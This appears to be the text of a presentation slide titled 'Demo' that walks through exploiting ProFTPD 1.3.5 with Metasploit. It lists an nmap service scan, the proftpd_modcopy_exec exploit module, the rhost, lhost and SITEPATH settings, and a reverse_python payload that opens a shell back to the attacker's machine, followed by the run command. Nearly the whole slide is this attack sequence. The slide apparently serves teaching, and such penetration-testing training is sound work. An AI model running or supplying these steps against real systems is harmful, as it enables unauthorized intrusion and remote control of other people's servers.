

# Demo
Open: nmap -sV target_ip
Start Metasploit: metasploit-framework/bin/msfconsole
msf show exploits:
Search vulnerability of software: search ProFTPD 1.3.5
See info of vulnerability : info exploit/unix/ftp/proftpd_modcopy_exec
Use vulnerability: use exploit/unix/ftp/proftpd_modcopy_exec
See all options: show option
set rhost targe_Ip_address
set lhost my_ip_address
set SITEPATH /var/www/html
Show all payload to exploit: show payloads
set payload payload/cmd/unix/reverse_python
Execute payload to exploit: run